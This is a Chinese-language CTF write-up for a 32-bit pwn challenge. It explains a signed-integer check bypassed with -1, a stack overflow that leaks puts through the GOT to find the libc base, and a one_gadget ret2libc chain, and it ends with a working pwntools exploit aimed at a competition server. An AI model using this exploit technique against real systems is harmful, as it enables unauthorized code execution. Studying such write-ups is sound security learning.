








第一次真正在比赛中独立解出一道题——距离我第一次认真接触 CTF-PWN 已经差不多整整两个月了。但因为不知道目标实例需要手动启动，而且端口每次开启都会变化，所以提交 flag 稍微晚了一点（我太菜了）
# inverse
## main

## work

这里的符号转换漏洞很明显：当 nbytes 作为有符号数为 -1 时，可以导致溢出
## read_int
将输入字符转换为 int 类型（负数字符也会被转换）

## read_n
将字符输入到字符数组中

# 思路
## onegadget

ROPgadget





先用 patchelf 替换库
然后通过输入字符 -1 绕过检查——-1 对应 0xffffffff（32 位）——下一次读取便会导致溢出。构造 payload：先用 puts 函数的地址覆盖返回地址，接着是 work 函数的地址（作为 puts 的返回地址），然后是 puts 的参数，即 puts 的 GOT 表地址。第一次调用 work 即可泄露 puts 地址（先用 one_gadget 寻找可用的 gadget；我最终选择了 0x6749f 处的这个，因为 esi 通常满足其要求，而针对 eax 的 gadget 比较容易找到，如上图所示），从而得到 libc 基地址。然后在第二次调用 work 时，再次输入字符 -1，并用 pop eax; ret 这条 gadget 的地址覆盖返回地址，紧接着是 0，最后是 onegadget 地址——成功获取 shell

# exp
```python
from pwn import*
#context(os="linux",arch="i386",log_level="debug")
s=remote("124.71.135.126",30043)
#s=process("./pwn")
f=ELF("./pwn")
libc=ELF("./libc-2.27.so")
#gdb.attach(s,"b main")
s.recvuntil(b"input world tag: ")
s.sendline(b"1")
s.sendline(b"-1")
s.recvuntil(b"leave me a msg:")
payload=b"a"*64+p32(f.sym["puts"])+p32(f.sym["work"])+p32(f.got["puts"])
#+f.got["puts"]
s.sendline(payload)
put_addr=u32(s.recvline()[0:4])
libc_base=put_addr-libc.sym["puts"]

system_addr=libc_base+0x6749f 
payload=b"a"*64+p32(0x00024d37+libc_base)+p32(0)+p32(system_addr)
s.sendline(b"-1")
s.recvuntil(b"leave me a msg:")

s.sendline(payload)
# print(hex(u32(put_addr)))
s.interactive()
```

